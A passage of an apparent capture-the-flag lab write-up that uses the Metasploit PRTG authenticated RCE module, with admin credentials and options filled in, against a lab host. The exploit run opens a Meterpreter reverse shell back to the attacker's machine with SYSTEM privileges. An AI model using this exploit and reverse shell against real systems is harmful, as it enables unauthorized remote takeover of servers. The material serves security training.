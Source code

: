 Set the following options:
```
msf6 exploit(windows/http/prtg_authenticated_rce) > show options

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.129.96.142    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST           tun0             no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


```
Exploit, and get shell.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.10.16.13:4444
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2021)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.129.96.142
[*] Meterpreter session 2 opened (10.10.16.13:4444 -> 10.129.96.142:52616) at 2022-10-23 05:01:21 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : NETMON
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
